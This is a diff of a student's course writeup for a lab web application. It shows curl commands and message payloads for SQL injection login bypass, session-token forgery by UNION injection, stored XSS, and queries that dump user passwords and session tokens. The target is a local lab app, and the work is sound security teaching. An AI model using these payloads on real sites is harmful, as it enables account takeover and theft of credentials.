

Before and after one commit to MingoMango17/CMSC134-Writeups, a Markdown page: Machine_Problem_3/writeup.md, 3 parts joined by grey strips. Shown at 86% size. Rendered like a GitHub page; blank space fills up the shorter version.

Commit message:
i wonder if this is all for the sql injection and xss for the tl;dr

````diff
--- a/Machine_Problem_3/writeup.md
+++ b/Machine_Problem_3/writeup.md
@@ -22,21 +22,34 @@ Authors:
 > All of the CVEs listed here are hypothetical!
 > They do not represent real world CVEs.
 
-Here are the vulnerabilities and to exploit them:
 
-### SQL Injection
+List of vulnerabilities discovered:
 
-```bash
-curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=a' OR 1=1 --&password="
-curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=a' OR TRUE --&password="
-curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=' UNION select 1 from users; --&password="
-```
+> [!NOTE]- SQL Injection Authentication Bypass (aCVE-2024-0001)
+>
+> ```bash
+> curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=a' OR 1=1 --&password="
+> curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=a' OR TRUE --&password="
+> curl 'http://0.0.0.0:5000/login' -X POST --data-raw "username=' UNION select 1 from users; --&password="
+> ```
 
-### Stored XSS
+> [!NOTE]- Stored XSS and SQL Injection Vulnerability by Execution of Arbitrary SQL Queries and JavaScript (aCVE-2024-0002).
+>
+> Use these as the message:
+>
+> - `<script>alert(document.domain)</script>`
+> - `<script>alert(window.origin)</script>`
+> - `1', 1), ((SELECT GROUP_CONCAT(id || ',' || username || ':' || password, '<br>') FROM users), 1)--`
+> - `1', 1), ((SELECT GROUP_CONCAT(user || ':' || token, '<br>') FROM sessions), 1)--`
 
-```bash
-curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=' UNION SELECT id, username FROM users --" --data-raw 'message=<script>alert(window.origin)</script>'
-```
+
+> [!NOTE]- Credential Bypass via SQL Injection on Session Token (aCVE-2024-0003)
+>
+> ```bash
+> curl -L 'http://0.0.0.0:5000/home' -H "Cookie: session_token=' UNION SELECT id, username FROM users LIMIT 1 --"
+> curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=' UNION SELECT id, username FROM users LIMIT 1--" --data-raw "message=message=1', 1), ((SELECT GROUP_CONCAT(id || ',' || username || ':' || password, '<br>') FROM users), 1)--"
+> curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=' UNION SELECT id, username FROM users LIMIT 1--" --data-raw "message=1', 1), ((SELECT GROUP_CONCAT(user || ':' || token, '<br>') FROM sessions), 1)--"
+> ```
 
 ### CSRF
 
@@ -463,6 +476,7 @@ On the assumption that a user ID exists, forging a session token is performed th
 
 ```bash
 curl -L 'http://0.0.0.0:5000/home' -H "Cookie: session_token=' UNION SELECT 1 as id, 'random_name' as username FROM users LIMIT 1 --"
+curl -L 'http://0.0.0.0:5000/home' -H "Cookie: session_token=' UNION SELECT id, username FROM users LIMIT 1 --"
 ```
 
 And we're in.
@@ -513,6 +527,7 @@ The attack is crafted this way
 
 ```bash
 curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=' UNION SELECT 1 as id, 'doyou' as username FROM users LIMIT 1--" --data-raw 'message=alice watches 228922'
+curl 'http://0.0.0.0:5000/posts' -X POST -H "Cookie: session_token=' UNION SELECT id, username FROM users LIMIT 1--" --data-raw 'message=alice watches 228922'
 ```
 
 And checking the posts
@@ -532,13 +547,6 @@ the output is
 
 ***This is a serious concern...***
 
----
-
-This will also create a new `session_token` every time.
-
-
-curl 'http://0.0.0.0:5000/home'  -H 'Cookie: session_token=f5c8541ad5f844d551a4fc9f2554b821b437232324d32260e6d260c4603dbf8a'
-
 
 ## Patching the vulnerabilities
 
````
